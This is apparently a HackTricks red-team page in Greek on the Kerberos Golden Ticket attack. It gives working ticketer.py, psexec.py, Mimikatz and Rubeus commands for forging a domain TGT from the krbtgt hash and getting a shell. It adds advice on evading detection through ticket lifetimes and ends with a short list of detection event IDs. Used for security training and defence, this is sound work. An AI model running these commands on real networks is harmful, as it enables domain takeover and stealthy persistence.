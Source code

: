 # Golden Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Golden ticket

Μια επίθεση **Golden Ticket** συνίσταται στη **δημιουργία ενός νόμιμου Ticket Granting Ticket (TGT) προσποιούμενη οποιονδήποτε χρήστη** μέσω της χρήσης του **NTLM hash του λογαριασμού krbtgt του Active Directory (AD)**. Αυτή η τεχνική είναι ιδιαίτερα πλεονεκτική διότι **επιτρέπει την πρόσβαση σε οποιαδήποτε υπηρεσία ή μηχάνημα** εντός του τομέα ως ο προσποιούμενος χρήστης. Είναι κρίσιμο να θυμόμαστε ότι τα **διαπιστευτήρια του λογαριασμού krbtgt δεν ενημερώνονται ποτέ αυτόματα**.

Για να **αποκτηθεί το NTLM hash** του λογαριασμού krbtgt, μπορούν να χρησιμοποιηθούν διάφορες μέθοδοι. Μπορεί να εξαχθεί από τη **Διαδικασία Υποστήριξης Τοπικής Ασφάλειας (LSASS)** ή το **αρχείο NT Directory Services (NTDS.dit)** που βρίσκεται σε οποιονδήποτε Domain Controller (DC) εντός του τομέα. Επιπλέον, **η εκτέλεση μιας επίθεσης DCsync** είναι μια άλλη στρατηγική για την απόκτηση αυτού του NTLM hash, η οποία μπορεί να πραγματοποιηθεί χρησιμοποιώντας εργαλεία όπως το **lsadump::dcsync module** στο Mimikatz ή το **secretsdump.py script** από το Impacket. Είναι σημαντικό να τονιστεί ότι για να εκτελούνται αυτές οι ενέργειες, **συνήθως απαιτούνται δικαιώματα διαχειριστή τομέα ή παρόμοιο επίπεδο πρόσβασης**.

Αν και το NTLM hash χρησιμεύει ως μια βιώσιμη μέθοδος για αυτόν τον σκοπό, είναι **σθεναρά συνιστώμενο** να **κατασκευάζονται εισιτήρια χρησιμοποιώντας τα κλειδιά Kerberos Advanced Encryption Standard (AES) (AES128 και AES256)** για λόγους επιχειρησιακής ασφάλειας.

{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Από Windows" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**Μόλις** έχετε **εισαγάγει το χρυσό εισιτήριο**, μπορείτε να έχετε πρόσβαση στα κοινά αρχεία **(C$)**, και να εκτελέσετε υπηρεσίες και WMI, οπότε θα μπορούσατε να χρησιμοποιήσετε **psexec** ή **wmiexec** για να αποκτήσετε ένα shell (φαίνεται ότι δεν μπορείτε να αποκτήσετε ένα shell μέσω winrm).

### Παράκαμψη κοινών ανιχνεύσεων

Οι πιο συχνές μέθοδοι ανίχνευσης ενός χρυσού εισιτηρίου είναι μέσω της **επιθεώρησης της κίνησης Kerberos** στο δίκτυο. Από προεπιλογή, το Mimikatz **υπογράφει το TGT για 10 χρόνια**, το οποίο θα ξεχωρίσει ως ανώμαλο σε επόμενα αιτήματα TGS που γίνονται με αυτό.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Χρησιμοποιήστε τις παραμέτρους `/startoffset`, `/endin` και `/renewmax` για να ελέγξετε την αρχική απόκλιση, τη διάρκεια και τις μέγιστες ανανεώσεις (όλες σε λεπτά).
```
Get-DomainPolicy | select -expand KerberosPolicy
```
Δυστυχώς, η διάρκεια ζωής του TGT δεν καταγράφεται στα 4769, οπότε δεν θα βρείτε αυτές τις πληροφορίες στα Windows event logs. Ωστόσο, αυτό που μπορείτε να συσχετίσετε είναι **η εμφάνιση 4769 χωρίς προηγούμενο 4768**. **Δεν είναι δυνατόν να ζητήσετε ένα TGS χωρίς ένα TGT**, και αν δεν υπάρχει καταγραφή ενός TGT που να έχει εκδοθεί, μπορούμε να συμπεράνουμε ότι έχει κατασκευαστεί offline.

Για να **παρακάμψετε αυτή την ανίχνευση**, ελέγξτε τα diamond tickets:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### Mitigation

* 4624: Logon Λογαριασμού
* 4672: Logon Διαχειριστή
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

Άλλες μικρές τεχνικές που μπορούν να κάνουν οι αμυντικοί είναι **να ειδοποιούν για 4769 για ευαίσθητους χρήστες** όπως ο προεπιλεγμένος λογαριασμός διαχειριστή τομέα.

## References
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
